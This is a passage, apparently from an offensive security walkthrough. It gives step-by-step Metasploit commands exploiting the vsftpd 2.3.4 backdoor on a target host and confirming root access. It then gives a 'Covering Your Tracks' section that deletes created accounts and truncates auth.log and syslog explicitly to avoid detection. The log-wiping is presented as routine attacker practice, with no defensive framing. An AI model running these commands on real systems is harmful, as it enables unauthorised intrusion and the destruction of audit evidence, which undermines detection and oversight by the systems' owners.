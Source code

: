    - Use the exploit:
     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOSTS 192.168.1.100
     run
     ```

3. **Verify Access**:
   - Once you gain access, ensure you're in:
     ```bash
     whoami
     ```

   - You should see `root` or a similar user, depending on your privilege escalation.

---

### **Step 2: Covering Your Tracks**

#### Task 2: **Delete Created User Accounts**

1. **List all users on the victim machine**:
   - Identify any user accounts created during the exploitation.
     ```bash
     cat /etc/passwd
     ```

2. **Delete any malicious user accounts**:
   - If you created a test user during the exploitation, delete it securely.
     ```bash
     sudo userdel -r testuser
     ```

#### Task 3: **Clear System Logs**

1. **View the logs**:
   - Check the logs where traces of your attack might be stored, such as `auth.log` and `syslog`.
     ```bash
     sudo cat /var/log/auth.log
     sudo cat /var/log/syslog
     ```

2. **Clear the logs**:
   - Securely delete or truncate the logs to avoid detection.
     ```bash
     sudo truncate -s 0 /var/log/auth.log
     sudo truncate -s 0 /var/log/syslog
     ```

3. **Ensure there are no log traces left**:
   - Double-check the logs to verify that they have been cleared.
     ```bash
     sudo cat /var/log/auth.log
     ```
